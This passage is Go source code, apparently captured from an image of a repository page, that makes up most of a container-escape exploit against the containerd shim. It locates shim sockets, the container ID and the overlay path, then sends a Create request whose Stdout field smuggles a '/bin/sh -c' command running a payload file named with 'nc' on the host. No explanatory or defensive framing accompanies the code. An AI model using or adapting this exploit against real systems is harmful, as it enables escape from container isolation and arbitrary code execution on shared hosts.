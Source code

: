 ```
    md.Set("containerd-namespace-ttrpc", "notmoby")
    ctx = ttrpc.WithMetadata(ctx, md)

    /* // poc get shim pid
    info, err := shimClient.ShimInfo(ctx, &types.Empty{})
    if err != nil {
        log.Println("rpc error:", err)
        return false
    }

    log.Println("shim pid:", info.ShimPid)
    */

    r, err := shimClient.Create(ctx, &shimapi.CreateTaskRequest{
        ID: docker_id,
        Bundle: "/run/containerd/io.containerd.runtime.v1.linux/moby/"+docker_id+"/config.json",
        Runtime : "io.containerd.runtime.v1.linux",
        Stdin:  "anything",
        //Stdout: "binary:///bin/sh?-c=cat%20/proc/self/status%20>/tmp/foobar",
        Stdout: "binary:///bin/sh?-c="+payload_path+"nc",
        Stderr: "anything",
        Terminal : false,
        Checkpoint : "anything",
    })

    if err != nil {
            log.Println(err)
            return false
    }

    log.Println(r)
    return true
}

func main() {
    matchset := make(map[string]bool)
    socks, err := getShimSockets()

    docker_id, err := getDockerID()
    log.Println("find docker id:", docker_id)

    merged_path, err := getMergedPath()
    log.Println("find path:", merged_path)

    if err != nil {
        log.Fatalln(err)
    }

    for _, b := range socks {
        sockname := string(b)
        if _, ok := matchset[sockname]; ok {
            continue
        }
        log.Println("try socket:", sockname)
        matchset[sockname] = true
        if exp(sockname, docker_id, merged_path) {
            break
        }
    }

    return
}

```